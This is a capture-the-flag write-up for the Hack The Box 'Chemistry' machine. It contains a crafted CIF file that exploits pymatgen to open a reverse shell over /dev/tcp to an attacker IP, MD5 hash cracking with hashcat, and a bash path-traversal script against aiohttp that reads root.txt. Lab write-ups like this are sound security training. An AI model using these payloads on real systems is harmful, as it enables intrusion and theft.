 
![Logo](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/Logo.png)



# Chemistry HTB

Objective: Hack the Linux machine, level: easy.


## Procedure
I know why you're here. You need advice because you're still figuring this stuff out. Trust me, I was there too. We all hit walls sometimes. For example, it took me two hours just to grab the root flag.

### Enumeration

Alright, enumeration is key. Using nmap, we identify the services and other useful info.

```sh
 sudo nmap -sS -sVC -Pn -A --min-rate 5000 -n -p- -vvv 10.10.11.38 -oN nmap.txt
```

![nmap](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/nmap.png)

The output shows:

| Port             |  Service     |
| -----------------|--------------|
| 22               |SSH           |
|5000              |HTTP         |

Seems like a web issue. Probably need some directory enumeration tools... but nah, don’t need them today.

Let’s check out the web page.

![index](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/index.png)

It’s just a login and register page. Let’s register.

![Register](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/Register.png)

### Ataquing

Oh, we can upload files. This is interesting. Maybe we can drop a reverse shell. Let’s upload a CIF file.

![Upload CIF file](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/Upload%20CIF%20file.png)

Let’s see what’s inside the example.CIF file.

![Link example](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/LinkExample.png)

![Example CIF](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/ExampleCIF.png)

Look for a CVE related to CIF.

![CVE CIF](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/CIF_CVE.png)

Here’s the POC.

![POC](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/vulnerabilityCIF.png)

Nice, now we can modify the example.cif to get a reverse shell.

```sh
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/IP/PORT 0>&1\'");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "

```
Now listen with netcat:
```sh
nc -lvnp PORT
```
**Reminder:**  Don’t forget to change the ports and IP!

Now, upload the file and hit View.

![UploadAndView](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/uploadandViewCIF.png)

We’re in. Hold up... what’s this? A sqlite file? Haha, let’s grab it and see what’s inside.

![Looking app](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/appTesting.png)

** For convenience, spawn a bash shell with: **```python3 -c "import pty;pty.spawn('/bin/bash')" ```

Inside, we see user hashes. ChatGPT says the hash type is MD5, so let’s fire up hashcat.

![Looking hash](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/lookinghashrosainbrute.png)

Let’s attack the hash with hashcat.

```sh
sudo hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

![attacking the hash](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/hashattack.png)

### Privilage escalation

Nice, we’ve got the password for "rose." Let’s try logging in via SSH.

```sh
sudo -l
```

We can’t use sudo. That’s bad. Let’s check processes and the network.

```sh
ps aux

```

``` sh
netstat -l
```
```sh
ss -tuln
```
![netstat](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/netstat.png)

Port 8080 is running a local HTTP service. Let’s see which version.

```
curl http:127.0.0.1:8080 --head
```

![netstat](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/head.png)

Let’s check for vulnerabilities in aiohttp.

![CVE aiohtt](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/FIndingCVEaiohttp.png)

Boom, found a vulnerability. Let’s upload the exploit where Rose is and tweak it. This web app doesn’t have static files, just assets. Our target? root.txt.
```sh
#!/bin/bash

url="http://localhost:8080"
string="../"
payload="/assets/"
file="root/root.txt" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done 
```

![rootflag](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/rootflag.png)



We got it. Root flag’s ours.



## 🔗 Links

>* https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f
>* https://github.com/z3rObyte/CVE-2024-23334-PoC


